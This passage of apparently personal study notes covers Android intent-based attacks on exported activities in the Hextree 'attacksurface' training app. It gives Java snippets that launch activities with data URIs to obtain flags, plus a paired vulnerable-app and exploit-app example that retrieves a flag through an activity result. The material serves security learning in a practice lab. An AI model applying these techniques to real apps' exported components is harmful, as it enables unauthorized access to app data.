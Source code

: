 ```java
I.putExtra("username", "fuck");         
startActivity(intent); 
```

### Send Data Uri

```java
Intent I =  new Intent();
ComponentName C = new ComponentName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag3Activity");
I.setComponent(C);
I.setAction("io.hextree.action.GIVE_FLAG");
I.addCategory(Intent.CATEGORY_DEFAULT);
Uri dataUri = Uri.parse("https://app.hextree.io/map/android");
I.setData(dataUri);
startActivity(I);


// another exmaple

 Intent intent = new Intent();
 intent.setComponent(new ComponentName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag1Activity"));
 String name = "Kyrillos";
 Uri data = Uri.parse("custom://data?name=" + name);
 intent.setData(data);
 startActivity(intent);
```

## Exported Actvites with Return
Starting activities is not just a one-way communication. Activities can also return a result back to the caller when it was started with `startActivityForResult()` or `ActivityResultLauncher`.

> Note: startActivityForResult is decpracted

**Vuln APP**
```java
ComponentName callingActivity = getCallingActivity();
if (callingActivity == null || !callingActivity.getClassName().contains("Hextree")) {
    return;
}
Intent intent = new Intent("flag");
this.f.addTag(intent);
this.f.addTag(42);
intent.putExtra("flag", this.f.appendLog(this.flag));
setResult(-1, intent);
finish();
success(this);
```
**Exploit APP**
```java
Intent I =  new Intent();
I.setComponent(new ComponentName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag9Activity"));

ActivityResultLauncher<Intent> launcher = registerForActivityResult(
        new ActivityResultContracts.StartActivityForResult(),
        result -> {
            if (result.getResultCode() == RESULT_OK) {
                String flag = result.getData().getStringExtra("flag");
                mainTextView.setText(flag);
            }
        }
);
```